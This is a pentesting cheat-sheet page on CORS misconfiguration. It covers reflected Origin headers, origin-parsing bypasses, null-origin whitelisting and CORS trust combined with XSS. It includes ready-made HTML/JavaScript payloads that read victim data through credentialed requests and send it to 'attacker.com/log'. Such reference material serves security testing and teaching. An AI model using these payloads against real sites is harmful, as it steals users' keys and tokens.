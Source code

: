 # CORS

**Impact**: if a response contains any sensitive information such as an API key or CSRF token, you could retrieve these info.

## <mark style="color:yellow;">Server ACAO Header from Client-Origin</mark>

Some app read the Origin header from requests and including a response header stating that the requesting origin is allowed.

**Detection**&#x20;

Send request with `Origin: https://example.com` and see if the origin is reflected in the `Access-Control-Allow-Origin` header.

**Exploit**

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='https://attacker.com/log?key='+this.responseText;
};
</script>
```

## <mark style="color:yellow;">**Errors parsing Origin headers**</mark>

Suppose `normal-website.com`. Bypass with`hackersnormal-website.com` or `normal-website.com.evil-user.net`

{% hint style="info" %}
**Note**: you need to know the whitelisted origins.
{% endhint %}

***

## <mark style="color:yellow;">**Whitelisted null origin value**</mark>

**Detection**

Send request with `Origin: null` and see if the response has `Access-Control-Allow-Origin: null`

**Exploit**

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://attacker.com/log?key='+this.responseText;
};
</script>"></iframe>
```

## <mark style="color:yellow;">Exploiting XSS via CORS trust relationships</mark> <a href="#exploiting-xss-via-cors-trust-relationships" id="exploiting-xss-via-cors-trust-relationships"></a>

Suppose that:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

If you find an XSS on `subdomain.vulnerable-website.com` inject JavaScript that uses CORS and retrieve information.

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```
